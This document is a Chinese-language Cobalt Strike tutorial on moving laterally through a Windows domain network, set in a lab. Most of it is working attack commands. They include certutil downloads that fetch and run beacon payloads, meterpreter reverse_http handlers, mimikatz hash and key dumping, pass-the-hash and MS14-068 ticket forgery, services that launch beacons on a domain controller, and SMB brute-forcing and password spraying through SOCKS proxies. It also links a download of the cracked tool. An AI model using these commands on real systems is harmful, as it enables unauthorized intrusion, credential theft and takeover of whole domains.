# 常见CS内网横向教程

<p align="center">
    
</p>

**目录**
- [常见CS内网横向教程](#常见cs内网横向教程)
  - [实验环境](#实验环境)
  - [IPC$横向](#ipc横向)
  - [WMI横向](#wmi横向)
    - [wmic](#wmic)
      - [wmic](#wmic-1)
      - [cscript](#cscript)
      - [wmiexec](#wmiexec)
  - [SMB横向](#smb横向)
      - [psexec（windows官方工具）](#psexecwindows官方工具)
      - [psexec（impacket套件）](#psexecimpacket套件)
      - [利用cs中的psexec上线内网不出网主机](#利用cs中的psexec上线内网不出网主机)
      - [smbexec](#smbexec)
  - [PTH-mimikatz](#pth-mimikatz)
  - [PTK-mimikatz](#ptk-mimikatz)
  - [PTT-ms14068](#ptt-ms14068)
  - [批量密码检测](#批量密码检测)
    - [设置代理链进入](#设置代理链进入)
      - [SMB 探活扫描](#smb-探活扫描)
      - [SMB 批量爆破](#smb-批量爆破)
      - [直接利用已知账号密码](#直接利用已知账号密码)
      - [使用proxychains配合使用CrackMapExec](#使用proxychains配合使用crackmapexec)
        - [域渗透工具：CrackMapExec](#域渗透工具crackmapexec)
      - [开启msf代理](#开启msf代理)
  - [WINRM横向](#winrm横向)
    - [开启配置](#开启配置)
    - [开启攻击](#开启攻击)
  - [参考：](#参考)

## 实验环境



* 实验靶机
  * 外网：
    * CS服务器:1.117.43.77
  * 内网：
    * WIN7:192.168.91.128
    * SERVER2008:192.168.91.178
    * SERVER2019:192.168.91.133

* 实验环境
* CS版本：CS4.3
  * 服务器：`F8X -cs`
  * 下载链接：https://raw.githubusercontent.com/No-Github/Archive/master/CS/CobaltStrike4.3.zip
* 其他附件：
  * 链接：https://pan.baidu.com/s/1aINv_0Ix9T5Sop9qUMP7Fw 
提取码：2580


## IPC$横向

`IPC$`是专用管道，可以实现对远程计算机的访问，需要使用目标系统用户的账号密码，使用`139. 445`端口。
利用流程：

1. 建立IPC$链接到目标主机
2. 拷贝要执行的命令脚本到目标主机
3. 查看目标时间，创建计划任务（at<2012.schtasks>2012）定时执行拷贝到的脚本
4. 删除IPC$链接

`Windows2012`以下系统可使用at命令创建计划任务执行木马上线

```bash
# 建立ipc连接：
net use \\192.168.91.178\ipc$ "Abcd1234" /user:god.org\administrator

# 拷贝执行文件到目标机器
copy beacon.exe \\192.168.91.178\c$

# 添加计划任务
at \\192.168.91.178 15:47 c:\beacon.exe

# 删除ipc
net use \IP\ipc$ /del
```

命令完成



成功上线



`Windows2012`以上系统使用`schtasks`命令创建计划任务执行木马上线

```bash
# 建立ipc连接：
shell net use \\192.168.91.133\ipc$ "Abcd1234" /user:god.org\administrator

# 复制文件到其C盘
shell copy beacon.exe \\192.168.91.133\c$

# 删除 IPC$ 链接
shell net use \\192.168.91.133\ipc$ /del

# 创建任务对应执行文件
以远程系统的system用户运行c:\artifact.exe，计划任务的名字为test1

shell SCHTASKS /Create /S 192.168.91.133 /U administrator /P "Abcd1234" /SC ONCE /ST 14:56 /TN test1 /TR c:\artifact.exe /RU system

# 运行beacon任务
shell SCHTASKS /Run /S 192.168.91.133 /U administrator /P "Abcd1234"  /I /TN "test1"

# 删除建立的计划任务
shell SCHTASKS /Delete /S 192.168.91.133 /U administrator /P "Abcd1234" /TN "test1" /F
```





> 常见问题:

```
5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限
51：网络问题，Windows无法找到网络路径
53：找不到网络路径，可能是IP地址错误. 目标未开机. 目标Lanmanserver服务未启动. 有防火墙等问题
67：找不到网络名，本地Lanmanworkstation服务未启动，目标删除ipc$
1219：提供的凭据和已存在的凭据集冲突，说明已建立IPC$，需要先删除
1326：账号密码错误
1792：目标NetLogon服务未启动，连接域控常常会出现此情况
2242：用户密码过期，目标有账号策略，强制定期更改密码
```

> 建立IPC失败的原因:

```
（a）目标系统不是NT或以上的操作系统
（b）对方没有打开IPC$共享
（c）对方未开启139. 445端口，或者被防火墙屏蔽
（d）输出命令. 账号密码有错误
```

## WMI横向

`WMI`是通过`135`端口进行利用，支持明文用户密码或者`hash`的方式认证，并且该方法不会在目标日志系统留下痕迹。使用wmic远程执行命令，在远程系统中启动`windows management lnstrumentation` 服务（目标服务器需要开放`135`端口，`wmic`会以管理员权限在远程系统中执行命令）。如果目标服务器开启了防火墙，wmic将无法进行连接。`wmic命令没有回显`，需要使用ipc$和type命令来读取信息，若使用wmic执行恶意程序，`将不会留下日志`。

利用前提和注意事项：

1. 目标防火墙已事先允许135. 445端口连入，且本地杀软. EDR未拦截wmic.exe,cmd.exe等执行；
2. 有些域账户只允许在指定的域内机器上才可登录，所以如果发现账密是对的，却会提示 "拒绝访问" ；
3. 出现提示"无效句柄" 之类的错误，可尝试把目标ip换成机器名或者把机器名换成ip，ip或机器名用双引号包起来；
4. 当提示 "RPC服务器不可用"时，有可能是目标防火墙导致135端口不通，或者目标系统没开135端口，要么就是被对方杀软或EDR拦截。

### wmic

#### wmic

无需上传第三方软件，利用系统内置程序，执行过程中有单模式执行和交互式执行
可以只执行命令，`或者反弹shell`
单命令执行，执行后无结果回显，可以将木马上传到该内网web目录下，然后调用文件下载命令上线cs：

```bash
# 请先提前搭建一个http服务器 如python一句话或phpstudy 放入木马exe文件

shell wmic /node:192.168.91.178 /user:administrator /password:Abcd1234 process call create "cmd.exe /c certutil -urlcache -split -f http://192.168.91.1/beacon.exe c:/beacon.exe"

# 运行文件并上线

shell wmic /node:192.168.91.178 /user:administrator /password:Abcd1234 process call create "c:\windws\system32\cmd.exe c:\beacon.exe"
```



也可以使用目标系统的cmd.exe执行一条命令，将执行结果保存在C盘的out.txt文件中，

```bash
# 将文件内容写入到 out.txt
wmic /node:192.168.91.178 /user:administrator /password:Abcd1234 process call create "cmd.exe /c ipconfig >c:\out.txt"
```

建立`ipc$`后，使用`type`命令读取执行结果：

```bash
net use \\192.168.91.178\ipc$ "Abcd1234" /user:administrator
type \\192.168.91.178\C$\ip.txt
```

#### cscript

利用系统内置命令，可获取`交互式shell`
（`无法在cs中使用，因运行成功后会一直进行反弹连接，导致卡bug`）
需上传 `wmiexec.vbs` 然后进入该服务器内进行执行。
`Wmiexec.vbs`脚本通过VBS调用WMI来模拟PsExec功能。`wmiexec.vbs`可以在远程系统中执行命令并进行回显，获得远程主机的`半交互式shell`

**提供账号密码，执行如下命令：**

```bash
cscript //nologo wmiexec.vbs /shell 192.168.91.178 username password
```



**缺点**：wmic和cscript都无法进行`hash`传递

#### wmiexec

第三方软件 (交互式&单执行)，此方法无法在`cs`中执行后回显,但可利用文件下载命令上线cs：

```bash
# 执行命令将文件从远程服务器下载到本地
shell c:\wmiexec ./administrator:Abcd1234@192.168.91.178 "cmd.exe /c certutil -urlcache -split -f http://192.168.91.1/beacon.exe c:/beacon.exe"


# 执行命令并上线，跳过回显
shell c:\wmiexec ./administrator:Abcd1234@192.168.91.178 "cmd.exe /c c:/beacon.exe"
```



缺点：第三方软件会被杀软查杀

## SMB横向

利用SMB服务可以通过明文或hash传递来远程执行，条件445服务端口开放。

#### psexec（windows官方工具）

可获取交互式shell使用工具为windows官方工具

下载地址：https://docs.microsoft.com/en-us/sysinternals/downloads/pstools

```
PsExec64.exe \\192.168.91.178 -u administrator -p Abcd1234 -s cmd
```



#### psexec（impacket套件）

先运行一下`mimikatz`

右键shell，`Access->Run Mimikatz`



```
shell psexec -hashes :c780c78872a102256e946b3ad238f661 ./administrator@192.168.91.178
```



因cs无法操作交互式命令，也可引用`MSF`回显反弹接受会话
CS创建监听

CS 添加listener
左上角，`cobalt strike -> listeners -> ADD`



打开 `msf` 配置文件

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 8888
run
```

> 注意 不能使用 X64位的beacon.exe!




#### 利用cs中的psexec上线内网不出网主机

1. `Dump Hashes导出HASH`

Beacon右键，`Access–>Dump Hashes` 或命令行中执行`hashdump命令`。
`hashdump`必须在拥有`adminstrators`权限的情况下才能执行。



在 `View–>Credentials` 中查看导出的信息



2. `make_token` 模拟指定用户

`Access–>Make_token` 或命令行中执行 `make_token[DOMAIN\user][password]` 命令。

> 如果已经获得了域用户的账号和密码，就可以使用此模块生成令牌，生成的令牌具有指定域用户的身份。




3. 端口扫描

`explore–>Port scan`,我们这里使用的是 SMB 横向，就扫描常见的 `3389和445`



通过端口扫描在`View->Targets`中可以看到存活的主机



4. 利用 PsExec 横向上线

在目标主机图表上右击，`jump–>PsExec` 或在命令行中执行 psexec[host][share][listener]



利用拿下的主机做跳板尝试拿下其他不出网主机



#### smbexec

外部：(交互式)，和psexec一样

```bash
smbexec ./administrator:Abcd1234@192.168.91.178

smbexec god/administrator:Abcd1234@192.168.91.178

smbexec -hashes :c780c78872a102256e946b3ad238f661 ./administrator@192.168.91.178

smbexec -hashes :c780c78872a102256e946b3ad238f661 god/administrator@192.168.91.178smbexec -hashes god/administrator:c780c78872a102256e946b3ad238f661@192.168.91.178
```



## PTH-mimikatz

使用`cs`的`mimikatz`进行`pth`，发现执行后在目标主机上弹出cmd窗口，可利用进程窃取，直接在cs上进行远程操作。

```bash
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:administrator /domain:192.168.91.178 /ntlm:c780c78872a102256e946b3ad238f661
```

这时候 `mimikatz` 会打开一个system 权限的cmd窗口。我们查看目标进程，`explore->process list`,选择最下方的 `cmd.exe` 进程


```
steal_token 3532
dir \\192.168.91.178\c$
```



之后可复制文件，创建启动服务命令上线CS

```bash
shell net use \\192.168.91.178\c$
shell copy c:\beacon.exe \\192.168.91.178\c$
shell sc \\TALE2B52 create csshell binpath= "c:\beacon.exe"
shell sc \\TALE2B52 start csshell
```



## PTK-mimikatz

如果禁用了ntlm认证，PsExec无法利用获得的ntlm hash进行远程连接，但是使用mimikatz还是可以攻击成功。对于`8.1/2012r2`，安装补丁kb2871997的`Win 7/2008r2/8/2012`等，可以使用AES keys代替NT hash来实现ptk攻击

* **pth**：没打补丁用户都可以连接，打了补丁只能administrator连接
* **ptk**：打了补丁才能用户都可以连接，采用aes256连接

1. 首先使用mimikatz获取aes256

```
mimikatz sekurlsa::ekeys
```

2. 攻击该域内其它主机，成功后返回cmd

```
mimikatz sekurlsa::pth /user:administrator /domain:god /aes256:d55913af88d543d2411109270ea36c1c29a71de7a3156d61cd6989feb0f1ae
```

## PTT-ms14068

利用条件：
* 域控没有打`MS14-068`的补丁(KB3011780)
* `拿下一台加入域的计算机`
* 有这台域内计算机的域用户密码和`Sid`

`MS14-068`是密钥分发中心（KDC）服务中的Windows漏洞。

 它允许经过身份验证的用户在其Kerberos票证（TGT）中插入任意PAC。该漏洞位于kdcsvc.dll域控制器的密钥分发中心(KDC)中。用户可以通过呈现具有改变的PAC的Kerberos TGT来获得票证.

利用方法：

1. 漏洞 `MS14068` (web admin权限)
获取当前用户的SID值，并上传MS14-068漏洞利用文件，然后执行生成攻击域控主机的`TGT`凭据

```bash
# 如果当前用户为域用户，可以直接用 `whoami /user` 获取sid
shell whoami/user
```

2. 运行 `mimikatz` 抓取密码和SID

```bash
* Username : test1
* Domain   : TEST.COM
* Password : Abcd1234!@#$
```

3. 生成认证证书

利用 `ms14-068.exe` 工具生成伪造的 `kerberos` 协议认证证书

```bash
 MS14-068.exe -u <userName>@<domainName> -p <clearPassword> -s <userSid> -d <domainControlerAddr>

ms-14-068.exe -u   域用户@域控名  -p 域用户密码 -s 域用户sid -d 域控ip
```

> 使用刚刚抓到的密码组合命令

```bash
# 组合指令
shell C:\Users\test1\Desktop\ms14-068.exe -u  test1@test.com  -p Abcd1234!@# -s S-1-5-21-1112871890-2494343973-3486175548-1103 -d 192.168.91.11
```



4. 生成凭证



```bash
# 获取当前主机票证
shell klist

# 然后清除票证
shell klist purge

# 使用mimikatz将生成的票证导入到内存中
mimikatz kerberos::ptc TGT_test1@test.com.ccache
```



5. 尝试读取域控主机C盘目录下文件。

> Kerberos认证协议中仅支持对计算机名进行认证，无法使用ip地址认证。

对域内主机进行端口扫描后，得知计算机名



```
shell dir \\WIN-A5GPDCPJ7OT\c$
```



6. 通过内网代理上线CS

因域控所处环境通常不出网，可以通过该`主机`进行转发，上线CS
创建b`eacon_bind_tcp`端口为`4444`的监听器,并生成木马。





然后将此监听器`(内网代理)`生成的木马放到web主机，创建服务运行上线CS

```bash
# 连接到DC c盘
shell net use \\WIN-A5GPDCPJ7OT\c$

# 向DC创建一个服务
sc \\WIN-A5GPDCPJ7OT create beacon1 binPath= "C:\beacon1.exe" start= auto

# 启动服务
sc [服务器名称] start 服务名称 [服务启动参数]
sc \\WIN-A5GPDCPJ7OT start beacon1

# 删除服务
shell sc \\WIN-A5GPDCPJ7OT delete dcbindshell
```



## 批量密码检测

在利用`cs`进行横向移动时，发现如果`主机和口令`数量足够多的话，比较影响效率，可以使用相关口令扫描工具进行密码喷射如`超级弱口令扫描工具`、`fscan`等，然后进行集中利用。

下面使用`cs派生到msf`进行口令探测和利用：

首先cs建立msf监听器


```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 8888
run
```



选择之后，msf就会立马收到CS送的(派生)shell权限。




```bash
# 查看路由，获取当前机器的所有网段信息
$meterpreter > run get_local_subnets

# 自动查看路由信息
$meterpreter > run post/multi/manage/autoroute
```


```BASH
# 获取路由信息后添加路由
$meterpreter > background

$msf6 exploit(multi/handler) > route add 192.168.91.0 255.255.255.0 1

# 返回sessions
$meterpreter > sessions 1

# 获取路由地址信息：
$meterpreter > run autoroute -p
```



使用`msf`批扫出`smb`账号密码,这一步也可以使用 fscan
> 强烈推销 `fscan` 我滴超人！

### 设置代理链进入

首先，到已控目标内网机器的 Beacon 下把 socks 起起来：

```bash
beacon> getuid
beacon> socks 1080
```



然后，通过 `View → Proxy Pivots`，复制生成的 `MSF` 代理链接。






本地启动 `MSF`，挂着上面生成的代理链接，即可直接对目标内网进行各种探测：

#### SMB 探活扫描

```bash
# 意思就是让本地的 msf 走上面 cs 的 socks 代理
$msf > setg Proxies socks4:1xx.1xx.57.70:1080

# 建立双向通道
msf > setg ReverseAllowProxy true

# 拿着 msf 中的各类探测模块对目标内网进行正常探测即可
msf > use auxiliary/scanner/smb/smb_version
# 比如,识别目标内网所有 Windows 机器的详细系统版本,机器名和所在域

# 指定目标范围
msf > set rhosts 192.168.91.0/24

# 设置线程
msf > set threads 10

# 润
msf > run
```



#### SMB 批量爆破

```bash
use auxiliary/scanner/smb/smb_login
set threads 10
set rhosts 192.168.91.0/24
set smbdomain test  # 域名
set user_file /root/user.txt  # 指定字典地址
set pass_file /root/pass.txt  # 指定字典地址
run
```



满长时间爆破后最终爆破到了账号密码



#### 直接利用已知账号密码


```bash
use exploit/windows/smb/psexec
set payload windows/meterpreter/bind_tcp
set RHOSTS 192.168.91.11
set smbuser administrator
set smbpass Abcd1234!@#
run
```



#### 使用proxychains配合使用CrackMapExec



##### 域渗透工具：CrackMapExec


- 工具地址：https://github.com/byt3bl33d3r/CrackMapExec
- CrackMapExec（CME）是一款后渗透利用工具，可帮助自动化大型活动目录(AD)网络安全评估任务。尽管该项目主要用于攻击性目的（例如红队），但蓝队同样可以使用该工具来评估账户权限，模拟攻击，查找配置错误。
- 详细教学：https://www.freebuf.com/sectool/184573.html

> kali自带

**其他环境安装**

```bash
最方便：
apt-get install crackmapexec  # 不建议 反正我就没成功过🤡


避免有坑：
apt-get install -y libssl-dev libffi-dev python-dev build-essential
pip install --user pipenv
git clone https://github.com/byt3bl33d3r/CrackMapExec.git

cd CrackMapExec && pipe install -r requirements.txt
pipenv shell
python setup.py install
```

**语句格式**

基本信息探测，可选协议有:`'smb', 'winrm', 'ldap', 'mssql', 'ssh'`

```bash
基本探测
crackmapexec smb test.com
crackmapexec smb 192.168.91.0/24
crackmapexec smb 192.168.91.0-77  192.168.91.0-20
crackmapexec smb ~/ip.txt

携带认证信息
crackmapexec smb 192.168.91.0 -u administrator -p 'Abcd1234'
crackmapexec smb 192.168.91.0 -u='-administrator' -p='-Abcd1234'   # 第一个字母为-的特殊情况语句

执行命令

crackmapexec smb 192.168.3.144 -u administrator -p 'Abcd1234' -x whoami
```



**协议探测**

```bash
┌──(root💀kali)-[/home/kali]
└─# crackmapexec smb 192.168.91.11-128                                                                                                                   1 ⨯
SMB         192.168.91.11   445    WIN-A5GPDCPJ7OT  [*]  x64 (name:WIN-A5GPDCPJ7OT) (domain:test.com) (signing:True) (SMBv1:True)
```

**常见命令**

```bash
# Sessions枚举
crackmapexec smb 192.168.3.76-144 -u administrator -p 'Abcd1234' --sessions

# 共享枚举
crackmapexec smb 192.168.3.76-144 -u administrator -p 'Abcd1234' --shares

# 磁盘枚举
crackmapexec smb 192.168.3.76-144 -u administrator -p 'Abcd1234' --disk

# 登录用户枚举
crackmapexec smb 192.168.3.76-144 -u administrator -p 'Abcd1234' --loggedon-users

# RID爆破枚举
crackmapexec smb 192.168.3.76-144 -u administrator -p 'Abcd1234' --rid-brute

# 域用户枚举
crackmapexec smb 192.168.3.76-144 -u administrator -p 'Abcd1234' --users

# 组枚举
crackmapexec smb 192.168.3.76-144 -u administrator -p 'Abcd1234' --groups

# 本地组枚举
crackmapexec smb 192.168.3.76-144 -u administrator -p 'Abcd1234' --local-groups

# 域密码策略枚举
crackmapexec smb 192.168.3.76-144 -u administrator -p 'Abcd1234' --pass-pol
```

#### 开启msf代理

```bash
$meterpreter > background
$msf6 exploit(multi/handler) > use auxiliary/server/socks_proxy
$msf6 auxiliary(server/socks_proxy) > set SRVPORT 2233
$msf6 auxiliary(server/socks_proxy) > run
```



更改proxychains.conf

```
vim /etc/proxychains.conf
```

**密码喷射**

```bash
proxychains crackmapexec smb 192.168.91.1-127 -u administrator -p 'Abcd1234!@#'
```

## WINRM横向

WinRM代表Windows远程管理，是一种允许管理员远程执行系统管理任务的服务。默认情况下支持Kerberos和NTLM身份验证以及基本身份验证。
条件：

* **双方都启用的Winrm rs的服务**
* 目标系统防火墙已事先允许5985(HTTP SOAP)或5986(HTTPS SOAP)端口连入
* 使用此服务需要管理员级别凭据。
* Windows2008以下版本默认自动状态，Windows Vista/win7上必须手动启动；
* Windows 2012之后的版本默认允许远程任意主机来管理。


### 开启配置

```bash
# winrm service 默认都是未启用的状态，先查看状态；如无返回信息，则是没有启动
winrm enumerate winrm/config/listener

# 针对winrm service 进行基础配置：
winrm quickconfig

# 查看`winrm service listener`
winrm e winrm/config/listener

# 为winrm service 配置auth:
winrm set winrm/config/service/auth @{Basic="true"}

# 为winrm service 配置加密方式为允许非加密：
winrm set winrm/config/service @{AllowUnencrypted="true"}
```

### 开启攻击

1. 攻击机开启：

```
winrm quickconfig -q
```

可通过`cs内置端口`扫描`5985`来判断目标主机是否开启WinRM




使用`ps`命令查看开启情况

```bash
powershell Get-WmiObject -Class win32_service | Where-Object {$_.name -like "WinRM"}
```

**执行命令**

```bash
winrs -r:192.168.91.178 -u:192.168.91.178\administrator -p:Abcd1234!@#$ whoami
```

> 远程连接时可能会遇到以下错误

```
错误编号：-2133108526
Winrs error:WinRM 客户端无法处理该请求。可以在下列条件下将默认身份验证与 IP 地址结合使用: 传输为 HTTPS 或目标位于 TrustedHosts 列表中，并且提供了显式凭据。使用 winrm.cmd 配置 TrustedHosts。请注意，TrustedHosts 列表中的计算机可能未经过身份验证。有关如何设置 TrustedHosts 的详细信息，请运行以下命令: winrm help config。
```

在攻击机上执行下面这条命令，设置为信任所有主机，再去连接即可

```bash
winrm set winrm/config/Client @{TrustedHosts="*"}
```

上线CS:

```
winrs -r:192.168.91.178 -u:192.168.91.178\administrator -p:Abcd1234!@#$ "cmd.exe /c certutil -urlcache -split -f http://192.168.91.1beacon.exe c:/beacon.exe"
winrs -r:192.168.91.178 -u:192.168.91.178\administrator -p:Abcd1234!@#$ "cmd.exe /c c:/beacon.exe"
```



也可以使用cs内置插件




## 参考：

- https://blog.csdn.net/qq_45924653/article/details/107986475
- https://blog.csdn.net/qq_27446553/article/details/46008473
- https://mp.weixin.qq.com/s/tAsPmsinh0Q3fBEFUuCX3Q
- https://blog.csdn.net/lhh134/article/details/104333583